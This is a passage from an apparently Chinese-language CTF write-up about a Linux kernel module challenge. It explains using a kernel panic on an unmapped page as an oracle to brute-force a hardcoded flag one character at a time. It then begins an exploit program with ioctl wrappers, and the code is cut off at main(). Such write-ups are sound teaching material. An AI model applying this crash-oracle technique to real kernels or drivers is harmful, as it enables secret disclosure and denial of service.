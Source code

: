 ```c
/*
|                              |    <---- unallocated page
|                              |
|                              |
|------------------------------|
|                              |
|                              |
|                              |
|                              |    <---- page alloc by mmap
|                              |
|                              |
|                     flag{...X|
|------------------------------|
|                              |
|                              |
|                              |    <---- unallocated page
*/
```

我们将 flag 放在通过 mmap 分配而来的内存页的末尾，其最后一个字符 `X` 是我们将要爆破的未知字符。

对于待比对字符 `X` 而言，若是比对失败则 ioctl 会直接返回，若是比对成功则指针移动到下一张内存页中进行解引用，**此时将会直接造成 kernel panic**。

由于 flag 被硬编码在 `.ko` 文件中，故通过是否造成 kernel panic 可以逐字符爆破 flag 内容。

ASCII 可见字符 95 个，flag 长度 33，开头 `flag{` 末尾 `}` 减去6个字符，最多只需要爆破 **26 \* 95 =  2470** 次便能够获得 flag。

比较需要耐心（因为打远程传文件很麻烦），这里附上一个比较方便的 exp，不用每次打都重新编译一次，只需要将 flag 作为参数传进去就行了：

```c
/**
 * Copyright (c) 2021 arttnba3 <arttnba@gmail.com>
 * 
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
**/

#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <string.h>
#include<sys/mman.h>
#include<sys/types.h>
#include <sys/ioctl.h>

#define SUCCESS_MSG(msg)    "\033[32m\033[1m" msg "\033[0m"
#define INFO_MSG(msg)       "\033[34m\033[1m" msg "\033[0m"
#define ERROR_MSG(msg)      "\033[31m\033[1m" msg "\033[0m"

struct chal_arg {
    char *flag_addr;
    int flag_len;
} flag = { .flag_len = 33};

void chal_print_flag(int fd)
{
    ioctl(fd, 0x6666);
}

void chal_verify_flag(int fd, struct chal_arg *arg)
{
    ioctl(fd, 0x1337, arg);
}

int main(int argc, char ** argv, char ** envp)
{
```